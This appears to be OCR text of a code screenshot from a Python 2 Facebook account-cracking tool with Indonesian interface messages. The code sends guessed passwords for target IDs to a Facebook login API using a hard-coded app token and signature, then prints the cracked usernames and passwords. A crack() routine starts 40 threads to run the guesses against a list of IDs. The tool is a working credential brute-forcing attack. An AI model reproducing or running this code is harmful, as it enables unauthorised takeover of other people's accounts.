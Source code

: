                                     data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                                    y = json.load(data)
                                    if 'access_token' in y:
                                        print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                                        print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']
                                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz4
                                        raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                                        menu_hack()
                                    else:
                                        if 'www.facebook.com' in y['error_msg']:
                                            print '\x1b[1;91m[+] \x1b[1;92mDitemukan.'
                                            print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'
                                            print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama\x1b[1;97m     : ' + a['name']
                                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
                                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz4
                                            raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                                            menu_hack()
                                        else:
                                            print '\x1b[1;91m[!] Maaf, gagal membuka password target :('
                                            print '\x1b[1;91m[!] Cobalah dengan cara lain.'
                                            raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
                                            menu_hack()
        except KeyError:
            print '\x1b[1;91m[!] Terget tidak ditemukan'
            raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
            menu_hack()


def crack():
    global file
    global idlist
    global passw
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()
    else:
        os.system('clear')
        print logo
        print 40 * '\x1b[1;97m\xe2\x95\x90'
        idlist = raw_input('\x1b[1;91m[+] \x1b[1;92mFile ID  \x1b[1;91m: \x1b[1;97m')
        passw = raw_input('\x1b[1;91m[+] \x1b[1;92mPassword \x1b[1;91m: \x1b[1;97m')
        try:
            file = open(idlist, 'r')
            jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')
            for x in range(40):
                zedd = threading.Thread(target=scrak, args=())
                zedd.start()
                threads.append(zedd)
